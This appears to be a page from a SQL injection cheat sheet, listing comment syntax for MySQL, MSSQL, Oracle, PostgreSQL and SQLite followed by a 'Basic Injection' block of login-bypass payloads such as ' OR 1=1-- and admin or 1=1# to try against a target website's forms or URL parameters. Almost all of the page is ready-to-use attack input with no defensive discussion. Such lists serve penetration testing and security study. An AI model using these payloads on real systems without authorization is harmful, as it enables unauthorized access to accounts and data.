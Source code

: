 <br />

## Comment Syntax

Comment syntax is depending on the database used in the website.

|DBMS|Comments|
|:---|:---|
|MySQL|`-- -` (add a space after `--`)|
||`#`|
||`/*comment*/`|
||`/*!comment*/`|
|MSSQL|`--`|
||`/*comment*/`|
|Oracle|`--`|
|PostgreSQL|`--`|
||`/*comment*/`|
|SQLite|`--`|
||`/*comment*/`|

<br />

## Basic Injection

Check if we can inject SQL commands into forms or URL params in the target website.

```txt
' OR 1=1--
' OR 1=1-- -
' OR 1=1#

' OR '1'='1'--
' OR '1'='1'-- -
' OR '1'='1'#

' OR '1'='1--
' OR '1'='1-- -
' OR '1'='1#

" OR 1=1--
" OR 1=1-- -
" OR 1=1#

') OR 1=1--
') OR 1=1-- -
') OR 1=1#

'; OR 1=1--
'; OR 1=1-- -
'; OR 1=1#

admin or 1=1--
admin or 1=1-- -
admin or 1=1#
```
